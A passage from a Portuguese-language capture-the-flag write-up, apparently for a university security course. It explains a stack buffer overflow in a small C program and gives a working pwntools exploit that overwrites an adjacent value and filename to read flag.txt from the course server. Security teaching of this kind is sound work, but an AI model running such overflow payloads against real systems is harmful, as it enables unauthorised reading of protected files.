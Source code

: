 ```python
r.interactive()
```

![desafio1](images/desafio1.png)

Ao correr o script de python apresentado acima obtemos este resultado, obtendo a flag e concluindo o desafio 1.

## Desafio 2

Tal como no desafio 1, ao utilizar o comando checksec, foi possível constatar que o programa program possui arquitetura x86, não apresenta aleatorização de código e carece de proteções relacionadas ao endereço de retorno.

De seguida analisamos o código de main.c. Existe alocação de 9 bytes de memória para o nome do ficheiro meme_file, 4 bytes para um valor val e 32 bytes para o buffer.

```c
char meme_file[9] = "mem.txt\0\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[32];
scanf("%45s", &buffer);
```

Após tentarmos correr código parecido ao desafio 1 para o desafio 2, e verificamos que o resultado obtido através do script não era o pretendido. Deste modo, fomos avaliar um pouco melhor o código do ficheiro main.c e deparamo-nos com as seguintes linhas de código que nos levaram à conclusão que tinhamos de alterar o valor do val na linha do r.sendline do script de python.

```c
 if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
```

Com isto decidimos que na linha do r.sendline teriamos de aplicar o valor 0xfefc2324 de forma inversa, pois a stack cresce na ordem inversa. Deste modo, chegamos ao seguinte script de python.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt") # 32 a's + valor fefc2324 invertido
r.interactive()
```
